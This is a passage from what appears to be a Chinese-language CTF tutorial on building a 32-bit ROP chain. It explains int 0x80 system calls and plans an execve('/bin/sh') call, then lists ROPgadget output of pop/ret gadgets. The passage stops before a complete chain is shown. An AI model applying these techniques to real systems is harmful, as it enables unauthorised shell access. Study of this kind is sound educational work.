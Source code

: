 Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数。操作系统实现系统调用的基本过程是：
应用程序调用库函数（API）；
API 将系统调用号存入 EAX，然后通过中断调用使系统进入内核态；
内核中的中断处理函数根据系统调用号，调用对应的内核函数（系统调用）；
系统调用完成相应功能，将返回值存入 EAX，返回到中断处理函数；
中断处理函数返回到 API 中；
API 将 EAX 返回给应用程序。

应用程序调用系统调用的过程是：
把系统调用的编号存入 EAX；
把函数参数存入其它通用寄存器；
触发 0x80 号中断（int 0x80）。

这样解释就非常清楚 系统调用号在网上可以搜到 我们本次利用execve("/bin/sh",NULL,NULL)来执行我们的shell
execve的系统调用号是11
那我们按照步骤需要先加入
1.一个pop出的eax
2.加入调用系统函数的系统调用号 也就是0xb
3.寻找ebx ecx edx做后面参数
4.参数/bin/sh NULL NULL
5.0x80触发中段

寻找rop的话ropgadgets是个不错的工具
我们先去需要一个eax
```bash
[ 10:28下午 ]  [ root@pgone:~/Rep ]
 $ ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```
我们选择``0x080bb196 : pop eax ; ret``来作为eax
接近着寻找ebx ecx edx
```bash
[ 10:37下午 ]  [ root@pgone:~/Rep ]
 $ ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```